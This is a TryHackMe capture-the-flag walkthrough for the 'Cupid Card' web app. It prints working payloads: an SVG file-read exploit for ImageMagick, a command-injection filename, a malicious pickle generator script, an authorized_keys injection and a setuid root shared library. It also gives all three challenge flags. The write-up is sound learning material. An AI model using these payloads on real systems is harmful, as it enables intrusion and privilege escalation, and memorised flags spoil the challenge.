





---
tags:
  - tryhackme
  - ctf
  - hard
  - offensive
  - boot2root
  - lfi
  - python
  - scripting
  - command-injection
  - insecure-deserialization
  - suid-binary
  - shared-library
---

# Cupid Card

**Platform:** TryHackMe  
**Type:** CTF  
**Difficulty:** Hard  
**Link:** [Love at First Breach 2026 - Advanced Track](https://tryhackme.com/room/lafbctf2026-advanced) (Task 3)

## Description
"Spread the love this Valentine's Day with CupidCards - the web app that lets you create personalised Valentine cards! Upload a photo, add a heartfelt message, and generate a custom card for that special someone."

## Initial Enumeration
I generated a list of open ports for more comprehensive enumeration with the following:  
`ports=$(nmap -p- --min-rate=1000 TARGET_IP_ADDRESS | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)`  
This revealed the following open ports:  

* 22
* 1337

I ran a full `nmap` scan to query the services for version information, as well as querying the target system for OS information with `nmap -p$ports -A -T4 TARGET_IP_ADDRESS`, which revealed the results following:  
  

A UDP scan (for the top 1000 ports) didn't uncover anything new.

I used my go-to `ffuf` command to enumerate the website pn port 1337:  
`ffuf -u http://TARGET_IP_ADDRESS/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c`.  Again, nothing interesting here:  
  

There was no `robots.txt` or `sitemap.xml` file and nothing interesting in the source code. Submitting a genuine image file (as requested on the form) was successful - the `POST` request is submitted to the `generate` endpoint where it is allocated an ID. The card is the saved at `cards/card_<id>.png`, which can be downloaded through the resulting page or rendered within the web browser by navigating directly to it.

Sending an OPTIONS request to the `generator` endpoint reveals that the only request methods accepted were `OPTIONS` and `POST`. 

Researching possible vulnerabilities for the very small list of software versions I had returned from the `nmap` scan came up with nothing immediately useful.

## Initial foothold - LFI
Attempting to upload a file other than an image file (a Python script in this instance) resulted in an error message that the file is the wrong file type. Adding a double extension to the file resulted in an error message that the file name is incorrectly formatted. After performing these basic tests, I opened Burp and sent an ordinary image file to capture the request, with the idea of reattempting a non-image file and using Intercept to change the `Content-Type` header. This too was unsuccessful. Sending an empty `POST` request to the `generator` endpoint resulted in an error message about the lack of an image file in the form.

Knowing that the web application was running Flask (`nmap` results showed Werkzeug on the 1337 port), I considered the possibility that server-side template injection (SSTI) might be possible. In the case of Flask, the template management engine is most likely to be Jinja. We can test for SSTI vulnerabilities in form fields using a standard string (`{{7*'7'}}`) - if this renders on the resulting page as `7777777`, the vulnerability is confirmed. Navigating to the generated card showed that the special characters had all been stipped out of the form prior to being submitted to the web application. I used the suggested filter bypass techniques from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2) but in every instance, all the special characters were stripped away before being rendered to the card. This was the same for XSS payloads, for all fields.

Attempting directory traversal was also unsuccessful - any use of `..\` had the `..` stripped off in the request.

OK, so at this point I was pretty grumpy. All that enumeration and payload testing and I had exactly nothing. After testing all that front-end functionality, I was only really left with testing the back-end functionality which, based on what I had seen in the enumeration phases, was responsible for generating the image for the card - i.e. taking the image file and text a user provides, putting it all together, and generating a new .png image that can be downloaded. The important distinction here is that Flask, the web framework this web app is running on, doesn't do this - it would require an external library or binary to perform this function. Googling around came up with two strong candidates - Pillow (if looking at actual real-world implementations) or ImageMagick (if looking at known CTF implementations). Of the two, ImageMagick had a particularly well-documented vulnerability set called ImageTragick, which has it's very own [web page with example payloads](https://imagetragick.com/). Attempting to use the .mvg exploit from that page resulted in an incorrect image format message but the .svg exploit generated a different error - failed to generate image (both file formats had to be saved as .png files to satisfy the file type conditions the web app was working with). Examining the exploit code revealed the following line:  
`<image xlink:href="https://example.com/image.jpg&quot;|ls &quot;-la" x="0" y="0" height="640px" width="480px"/>`  

Given that the victim machine is unlikely to have any internet access, I wondered if this was the section of the code causing the problem. Knowing what to replace the external URL + command injection payload with required two things:  

* Knowledge of HTML attributes.
* Knowledge of ImageMagick parsing logic.

For the first, the attribute of note is the `xlink:href` attribute being used in the exploit. The `xlink` set of attributes is used to create hyperlinks in XML documents, which can be embedded into SVG files to render external resources as the image source. Further to that, the `href` part of this attribute is used to specify a URL. So far so good. 

For the second of those points, ImageMagick has its own set of handlers for parsing/converting image files. Given that the victim machine has access only to itself, it would seem sensible to try to read some sort of local file to test the exploit, and seeing as we don't have any definite image files being hosted on the victim system, it's worth considering whether we might be able to read a text file there instead. Like, say, `/etc/passwd`. Lucky for me, ImageMagick uses one of its handlers to convert plain text files into an image file: `text:`. With that in mind, I changed that original line to the following:  
`<image xlink:href="text:/etc/passwd" x="0" y="0" height="640px" width="480px"/>`

To be clear, the intention here is to have ImageMagick convert the `/etc/passwd` file on the victim machine into an image file and use that image file as the source for the image being used as the data being submitted to the `generator` endpoint. If successful, the generated card should be an image of the contents of the `/etc/passwd` file.

  

Success! The resulting image was a little small so I tweaked the height and width values a bit. The resulting exploit code was as follows:  
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="1420px" height="1800px" version="1.1"
xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink">
<image xlink:href="text:app.py[0]"
x="0" y="0" height="1800px" width="1420px"/>
</svg>
```

## Post compromise enumeration #1
Alright, so at this point I have the ability to read files on the victim machine, but no ability to perform commands, including the inability to enumerate the system. Even so, there are some common system files we can access to try and obtain information from - all I had to do was update the file path in the exploit code and re-upload it to the `generator` endpoint.

**`/etc/passwd`**
There were two non-standard users on the system, both of which are enabled for interactive logins:  

* cupid.
* aphrodite.

**`/proc/self/status`**
The app is running as the user "cupid" (UID of 1001).

**`/proc/self/environ`**
Rendered with no content.

**`/etc/crontab`**
Nothing useful here.

**`/etc/shadow`**
Not able to access.

**`app.py`**
The whole file can be viewed using a suffix to the file name (e.g., `[0]`) - the suffix represents an ImageMagick frame number, which is useful for files that "overflow" a single frame. There is something potentially useful in the 3rd frame (`[2]` suffix):  
  

## Exploitation - Command Injection
There are two components that make this interesting:  

1. `os.system` - this Python command executes system commands via a `/bin/sh` context. It also interprets special characters and whitespace as contextual to the commands being executed.
2. `{filename}` - this is left unquoted in the code, which means if we have control of the input that sets the variable, we can gain control of the code execution.

To understand how this can be exploited, we also need to understand how this `os.system` command is invoked. In this application, it's invoked for rejected images, and is used to write to the error log. Looking back through the code, there are a couple of ways to force this invocation, one of which is by sending a file name to the web application that does not satisfy the file format requirements.  In order to take advantage of the identified weakness here, we need to be able to manipulate the file name when it is sent to the web app - given that the file is submitted in a form with a `POST` request, this may be possible using Burp Intercept or Repeater. Let's put all that together.

By submitting an image to the web app via Burp, we can see that the `POST` request contains the original filename and stores it in the `filename` variable:  
  

OK, great - that means that we have, in theory, control over setting that variable using Intercept or Repeater. So what does that mean for us? Well, we should be able to execute commands by editing that `filename` value in the request before sending it to the web application. Obviously, there is the issue that we have no output, which means that not only will we not know what the output of the command injection is, we won't know if it works at all. However, if we can redirect the command to a file that we can read, we can just open it in a web browser, and read the contents. To be on the safe side, we'll make sure to write the file to a directory we already know the web application has the ability to write to - the `cards` directory, and we need to leave some sort of file extension in place to satisfy the file validation logic in the app. With that in mind, we can change the value for the `filename` variable to:  
`test;id>cards/output.txt;#.png`  

Incorporating this into the `os.system` command, translates as such:  
`os.system(f"logger -t cupidcards -p local0.warning Rejected upload: test;id>cards/output.txt;#.png from 10.66.x.x")`  

When this is expanded, this line of code will then be executed, by `/bin/sh` in the `os.system` call, as:  

* Print the line `Rejected upload: test` with the `cupidcards` tag and the priority level `local0.warning` to the log file as specified in the web app (this is done with the `logger` program).  
* The `;` specifies that the next part of the line is executed as a new command, independent of the `logger` command.  
* Run `id` and redirect the output to `cards/output.txt`.  
* A second `;` performs the same purpose - the command that follows is treated as independent from its preceeding text. In this case, the text is prefixed with a `#` so is treated as a comment and ignored.

Changing the filename in Burp Repeater and forwarding the request returns an error from the web app. Don't panic! This is actually what we were expecting, remember? We needed to trigger the invalid file format workflow in order to take advantage of the vulnerability. Navigating to the `cards/output.txt` file on the web application reveals that this blind command injection has actually been successful:  
  

## Post compromise enumeration #2
The first thing I tried at this point was to change the command being executed from a simple `id` to a basic `bash` reverse shell back to my attacker machine but this was unsuccessful. No matter, I have a stronger foothold to enumerate from at this point. Time to start looking around. Some basic enumeration of the "cupid" user's home directory finally gets me the first flag in the `cup1d.txt` file.  
??? success "What is the first user flag?"
	THM{r3_sub_w1th0ut_4ss1gnm3nt_l1k3_l0v3_w1th0ut_c0mm1tm3nt_92837}

Even better, my enumeration turned up an `.ssh` directory in the "cupid" user's home directory, which also had a private key in it. Using my command injection to `cat` the file and redirect the output to my `output.txt` file, I copied the contents to a key file on my attacker machine, changed the permissions and then used it to `ssh` directly into the target machine. Finally, a shell!

Enumerating my way around the file system, I found what looked like another web application in development:  
  

The app files themselves were all owned by the "aphrodite" owner readable by everyone. There's no way that's a coincidence in a CTF! Examing the `hbproto.py` file revealed some light obfuscation:

```
import struct
import hashlib
Αρως = b'\x89HBP'
Ερωτα = 2
Φιλία = bytes([112, 105, 99, 107, 108, 101]).decode()
Καρδιά = bytes([108, 111, 97, 100, 115]).decode()
Амур = getattr(__import__(Φιλία), Καρδιά)

def verify_header(Любовь):
    if len(Любовь) < 6:
        return False
    return True

def decode_notes(Сердце):
    if not isinstance(Сердце, bytes):
        return str(Сердце)
    try:
        return Амур(Сердце)
    except Exception:
        return None

def encode_notes(Стрела):
    爱情 = bytes([100, 117, 109, 112, 115]).decode()
    心跳 = getattr(__import__(Φιλία), 爱情)
    return 心跳(Стрела)
```

When deobfuscated (I used AI, other methods are available, but this was quickest), this decodes to:  
```
import struct
import hashlib
HEADER = b'\x89HBP'
VERSION = 2
MODULE_NAME = "pickle"
LOAD_FUNC_NAME = "loads"
pickle_loads = getattr(__import__(MODULE_NAME), LOAD_FUNC_NAME)

def verify_header(data):
    if len(data) < 6:
        return False
    return True

def decode_notes(data):
    if not isinstance(data, bytes):
        return str(data)
    try:
        return pickle_loads(data)
    except Exception:
        return None

def encode_notes(obj):
    DUMP_FUNC_NAME = "dumps"
    pickle_dumps = getattr(__import__(MODULE_NAME), DUMP_FUNC_NAME)
    return pickle_dumps(obj)
```

OK, so there's a bit to unpack here, starting with "what is this pickle"? And why was the author of this script so keen to hide its import? The answer to both of those questions can be found in the official [pickle](https://docs.python.org/3/library/pickle.html) documentation - `pickle` is a module that can be used for serializing and deserializing Python objects. It's also known to be insecure - the documentation specifically warns the reader about the possibility of executing malicious code via a pickle object (this might explain the obfuscation - it seems like the author really didn't want anyone to know that `pickle` was being used). The script itself consists of two main functions:  

* A deserializer (using the `pickle.loads` function) - `decode_notes`.  
* A serializer (using the `pickle.dumps` function) - `encode_notes`.

## Horizontal privilege escalation (object deserialisation)
Insecure deserialization was, until the latest release, considered a serious enough vulnerability to occupy a place in the OWASP Top 10 (it's now incorporated into a broader category of Software and Data Integrity Failures). As such, it's documentation on the subject provides quite a clear picture of what the presence of `pickle` in this script could mean for this challenge - in a nutshell, if a an attack can control the serialized object being passed to the deserializer, arbitrary code can be executed when it is deserialized, or can even escalate privileges if the deserialized object has a higher level of privileges than the attacker.  

OK, so all of this is very promising, but how do we actually leverage this? After all, access to the script is limited to read access only - no execution. Well, that script wasn't the only one in the web app folder - there was another called `match_engine.py`. The `main` function in this script essentially checks for any files ending in "`.love`" in a specified directory (`/var/spool/heartbreak/inbox`) and the runs the `process_files` function on each of them. The execution flow of the `process_files` function is as follows:  

* Read raw bytes.
* Deserialize with `MessagePack`.
* Validate required structure.
* Validate desire length.
* If notes is bytes → call `hbproto.decode_notes()` (`pickle.loads`).
* Compute score.
* Log match.
* Write result file.
* Delete original file.

Alright, so this is good (provided we can write data to that `inbox` directory). In theory, we can create some sort of malicious pickle file, make sure it's named with a `.love` extension, save it in the `inbox` folder, and the `match_engine.py` script should have it deserialized. There are some other conditions (otherwise the file will simply be deleted!), so let's take a look at those.

Firstly, the raw bytes of the file will be deserialized with [`MessagePack`](https://msgpack.org/index.html), which is binary serialization format similar to JSON, so the contents of the file will need to be in this format.

Secondly, the `MessagePack` content must follow the structure laid out by the web app. The criteria here is that it much be a dictionary object and contain the following keys:  

* `from`
* `to`
* `desire`
* `compat`

Lastly, the value for the `desire` key must be at least 50 characters long.

There is one other condition that our crafted `pickle` object needs to meet - it needs to be in a format that is read as bytes, not as a string, otherwise it will simply be treated as a string, and will not be passed to the desrialization function.

*In an ironic twist, all of these conditions are actually laid out in the `PROCESSING.md` file in the `heartbreak` folder:*
  

OK, so just a couple more housekeeping things to check before we go about creating a file that satisfies all the criteria. Firstly, does the "cupid" user have write access to the directory used for the spooler service? Initially it appears not, but we're in luck as the user in the right group for access:  
  

Secondly, we can check the `config.ini` file in the main `heartbreak` directory to make sure we haven't missed anything. Actually it tells us we can expect to have confirmation of the exploit's success within 60 seconds of placing the malicious `.love` file in the directory:  
  

Alright, seems like everything is order. Let's try this thing! I created the following helper script to create the `.love` file with the malicious pickle payload:  
```
import pickle
import msgpack
import os

class RCE:
    def __reduce__(self):
        return (os.system, ("id > /tmp/rce_success",))

# Create malicious pickle
malicious_pickle = pickle.dumps(RCE())

# Build required structure
data = {
    "from": "attacker",
    "to": "victim",
    "desire": "A" * 60,  # Must be >= 50 chars
    "compat": {
        "sign": "aries",
        "element": "fire",
        "planet": "mars"
    },
    "notes": malicious_pickle  # MUST be bytes
}

# Pack as MessagePack
packed = msgpack.packb(data, use_bin_type=True)

with open("exploit.love", "wb") as f:
    f.write(packed)
```

I ran it on my attacker machine and copied it to the target machine with `scp`. Checking the `inbox` directory showed the upload had been successful. Waiting a few seconds and checking the log file specified in the `matching_engine.py` script (`/var/log/heartbreak/matcher.log`) showed that the file had been processed as desired by the heartbreak app:  
  

Checking the `/tmp` folder for our POC exploit output proves it has been successful, and that the command is being run as the "aphrodite" user:  
  

So now to try and work out how to use that to actually gain the horizontal privilege escalation into the "aphrodite" user. I originally tried changing the command in the helper script to make a reverse shell connection but it didn't work - I suspect that has something to do with that `firewall.sh` script I found earlier. At this point in the challenge I do have a private key file for the "cupid" user. If I could add this to the `authorized_keys` file for the "aphrodite" user, there's a chance I might be able to `ssh` in as the "aphrodite user". Good thing this deserialization exploit executes as the "aphrodite" user, which will have write access to that very file. I updated the command in the helper script to the following:  
`echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJI2BElPIcoG98ulZ3uuWJXR77CSYIs6u/g10Fhe76nv' >> /home/aphrodite/.ssh/authorized_keys`  

After regenerating and uploading the new `.love` file to the victim machine, I waited until the `matcher.log` file described its processing. After that, logging in with `ssh` was trivial, getting us access to the next flag.
??? success "What is the second user flag?"
	THM{br0k3n_h34rts_l34k_s3cr3ts}

## Vertical privilege escalation
So doing some basic privilege escalation around the machine revealed a (pretty obviously non-standard) SUID binary that runs as `root`:  
  

Running the binary without any input gives us a bit of information as to what the binary does:  
  

Running the binary with the `encrypt` and `decrypt` switches appears to prove the binary is functioning, but of more interest is the `status` switch output:  
  

This definitely got more interesting - a `root` SUID binary that loads external plugins? Sounds ripe for an external library exploit. I shouldn't have gotten so excited - examining the hardcoded directory for the plugins revealed two things:  

*  The `manifest.json` file contains details of the plugins to use, including the SHA256 hash for the file. That file is writable by the "aphrodite" account that I was logged in as. So far so good.  
*  The "aphrodite" user had no write access to the directory containing the plugin files. Not so good.

Not to be beaten by a little thing like directory permissions, I took a look at the strings in the binary (had this not revealed anything, I would have progressed to exfiltrating it and decompiling with Ghidra. As it turned out, that wasn't necessary). Hidden amongst the known switches and outputs, there's a hidden switch:  
  

Ah now this brings the whole idea of loading in a malicious plugin back into play! This switch suggests that plugins can be loaded from the working directory when used with the `--dev` switch. This means that we should be able to create a malicious library file using `gcc` and get the SUID binary to load it using that `plugin` switch. Given the makeup of the binary, we will need to make sure our malicious plugin satisfies the description in the `manifest.json` file, but as the "aphrodite" user can edit that file, that shouldn't be an issue. I created a `.c` file with the following code:  
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void __attribute__((constructor)) init() {
    setuid(0);
    setgid(0);
    system("/bin/bash -p");
}
```

That's a standard boilerplate code to escalate privilege - effectively it sets the effective and group IDs (`setuid` and `setgid`, respectively) as "root" (user ID of 0), launches a new `/bin/bash` instance and preserves those privileges - basically it provides a shell running as the "root" user. Before it can be used with the `heartstrings` binary, it needs to be compiled as a library with `gcc`. I ran the following command to achieve this:  
`gcc -shared -fPIC -o evil.so evil.c`  

This command is best run on the victim machine itself to ensure system compatibility. Next up, I needed to generate the SHA256 hash for the resulting `.so` file, which was easily achieved with `sha256sum`. This hash needed to be added to the `manifest.json` file, replacing one of the valid library file hashes already present. Using a text editor, this was easily achieved, and also provided the last piece of information needed in order for the `heartstrings` binary to successfully load the malicious library - the expected file name. Looking at the contents of the `manifest.json` file whilst editing the hash provided the file name detail:  
  
  

With that, I renamed my `evil.so` file to `rosepetal.so`, replaced the rosepetal hash value with the hash value for my malicious library file, and ran the `heartstrings` binary in developer mode, loading in my rogue plugin and was successful in gaining `root` access immediately:  
  

From there, finding the root flag was trivial:  
  
??? success "What is the third flag?"
	THM{h34rtstr1ngs_4_u}

**Tools Used**  
`Burp` `python3` `gcc`

**Date completed:** 01/03/26  
**Date published:** 01/03/26